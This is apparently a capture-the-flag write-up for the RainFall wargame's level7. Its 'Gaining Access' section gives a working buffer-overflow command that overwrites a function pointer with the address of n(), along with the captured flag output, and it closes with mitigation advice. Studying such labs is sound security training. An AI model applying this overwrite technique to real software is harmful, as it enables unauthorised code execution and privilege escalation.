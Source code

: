 ## Gaining Access
Exploit the vulnerability by crafting input to overwrite the function pointer with `n()`'s address:
```bash
level7@RainFall:~$ ./level7 `python2 -c "print 'A' * 20 + '\x28\x99\x04\x08'"` `python2 -c  'print "\xf4\x84\x04\x08"'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1738873327

```

## Mitigation Strategies
To secure this binary, the following steps should be taken:
1. **Bounds checking**: Replace `strcpy()` with `strncpy()` to prevent buffer overflows.
2. **Enable stack canaries**: Protect function return addresses from being overwritten.
3. **Use DEP (NX enabled)**: Prevent execution of injected shellcode.
4. **Remove SUID/SGID bits**: Reduce privilege escalation risks.

## Conclusion
This level demonstrates a classic buffer overflow attack exploiting function pointer overwrites. The key takeaway is that improper memory management can lead to severe security vulnerabilities. Proper validation, secure coding practices, and modern security mechanisms should always be used to mitigate such risks.

